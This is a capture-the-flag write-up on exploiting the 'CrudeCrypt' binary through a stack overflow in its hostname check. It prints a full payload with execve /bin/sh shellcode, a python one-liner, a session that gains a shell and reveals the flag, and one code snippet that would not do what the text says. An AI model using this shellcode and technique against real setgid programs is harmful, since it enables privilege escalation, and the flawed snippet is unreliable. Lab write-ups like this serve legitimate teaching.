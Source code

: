 # CrudeCrypt Writeup
##### By sdamashek of TJ CSL

CrudeCrypt is an encryption/decryption program. After reading the code, we knew it uses AES128-CBC for the encryption and decryption. After staring at it for a little while, we saw no clear vulnerability with the actual encryption/decryption functions (`encrypt_buffer` and `decrypt_buffer`), so we concluded the vulnerability must be somewhere else.

The program takes an action from the command line (either `encrypt` or `decrypt`), and returns if the command is not a valid action. We noticed that the program drops privileges if the action is `encrypt`:

```c
if(strcmp(argv[1], "encrypt") == 0) {
    action = &encrypt_file;
    // You shouldn't be able to encrypt files you don't have permission to.
    setegid(getgid());
```

Thus, the vulnerability has to be in the `decrypt` action, because the file we have to become the `crudecrypt` group to read `flag.txt`. Because the `decrypt_file` function checks if the encrypted file is both a multiple of the block size (16) and has a magic number in the header of `0xc0dec0de`, we couldn't just decrypt `flag.txt` and encrypt the result to get the flag. After a bit of denial, we concluded the only way to read `flag.txt` was to get a shell, instead of tricking the program into decrypting it, then getting the flag from that result. It also helped that it was also a binary exploitation problem instead of crypto.

Something that we found really interesting early on was this function call in `decrypt_file`:

```c
if(!check_hostname(header)) {
    printf("[#] Warning: File not encrypted by current machine.\n");
}
// check_hostname:
bool check_hostname(file_header* header) {
    char saved_host[HOST_LEN], current_host[HOST_LEN];
    strncpy(saved_host, header->host, strlen(header->host));
    safe_gethostname(current_host, HOST_LEN);
    return strcmp(saved_host, current_host) == 0;
}
```

This function seemed rather pointless, as it doesn't error out. After experimenting with some different runs, we noticed it gave this error on some machines, even when it *was* encrypted on the current machine. It seemed pretty obvious at this point that something was up here, and that this is probably where the exploit should go. We looked at how the hostname was retrieved in the encryption function and placed in the encrypted file:

```c
file_header header;
init_file_header(&header, size);
safe_gethostname(header.host, HOST_LEN);
// safe_gethostname:
void safe_gethostname(char *name, size_t len) {
    gethostname(name, len);
    name[len-1] = '\0';
}
```

Okay, so `safe_gethostname` gets `HOST_LEN` (32) characters of the hostname and makes sure the end is terminated by a null byte. But, when decrypting the file, the program doesn't check that the hostname is null terminated. But how does that help us? Look at these lines in `check_hostname` specifically:

```c
char saved_host[HOST_LEN], current_host[HOST_LEN];
strncpy(saved_host, header->host, strlen(header->host));
```

Since `HOST_LEN` is only 32, if `header->host` is not null terminated, `strlen` will return longer than 32, in fact it will continue to the next null byte, and we have a buffer overflow. Lets look at how `header` is set in `decrypt_file`:

```c
if(decrypt_buffer(enc_buf, size, (char*)key, 16) != 0) {
    printf("There was an error decrypting the file!\n");
    return;
}

char* raw_buf = enc_buf;
file_header* header = (file_header*) raw_buf;

// file_header struct
typedef struct {
    unsigned int magic_number;
    unsigned long file_size;
    char host[HOST_LEN];
} file_header;
```

I modified `safe_gethostname` to always set `name` to 32 "k"s, without a null terminator, so that a buffer overflow would occur on decryption:

```c
void safe_gethostname(char *name, size_t len) {
    name = "kkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkk";
}
```

As shown above, the `strncpy` will now copy up to the next null byte onto the stack. If you're not familiar with how buffer overflows work, I recommend reading a tutorial before reading below, such as http://faculty.kfupm.edu.sa/ics/zhioua/Teaching/ICS444/BufferOverflowTutorial2012.pdf. Since the stack is executable, we can just put shellcode on the stack at this point, and use the normal method of jumping to it. The stack layout in `check_hostname` after `strncpy` is called looks like this:

```txt
  32 bytes     8 bytes    4 bytes    4 bytes
[saved_host] [empty space] [ebp] [return address]
```

In my exploit, I placed my shellcode after the return address. Because ASLR is disabled, I didn't have to use any fancy techniques, I could just find the address of the start of the shellcode and overwrite the return address with that address. I determined the second byte after the return address to be located at `0xffffd5d1` using gdb and some experimentation (second because it requires one byte of padding before the shellcode). Below is my payload:

```txt
 filler
aaaaaaaa

fake ebp
bbbb

return address (pointer to shellcode)
\xd1\xd5\xff\xff

padding for alignment
a

shellcode (execve /bin/sh)
\xeb\x0b\x5b\x31\xc0\x31\xc9\x31\xd2\xb0\x0b\xcd\x80\xe8\xf0\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68

terminating null byte
\00
```

I then encrypt this with my custom crude_crypt and decrypt with the supplied setgid crude_crypt in `/home/crudecrypt`:

```bash
pico46900@shell:~$ python -c 'print "aaaaaaaabbbb\xd1\xd5\xff\xffa\xeb\x0b\x5b\x31\xc0\x31\xc9\x31\xd2\xb0\x0b\xcd\x80\xe8\xf0\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\00"' > payload
pico46900@shell:~$ ./crude_crypt encrypt payload payload.enc
-=- Welcome to CrudeCrypt 0.1 Beta -=-
-> File password: a

Got hostname into header, got 'kkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkk`�`'
=> Encrypted file successfully
pico46900@shell:~$ cd /home/crudecrypt
pico46900@shell:/home/crudecrypt$ ./crude_crypt decrypt ~/payload.enc ~/payload.out
-=- Welcome to CrudeCrypt 0.1 Beta -=-
-> File password: a

$ cat /home/crudecrypt/flag.txt
writing_software_is_hard
```
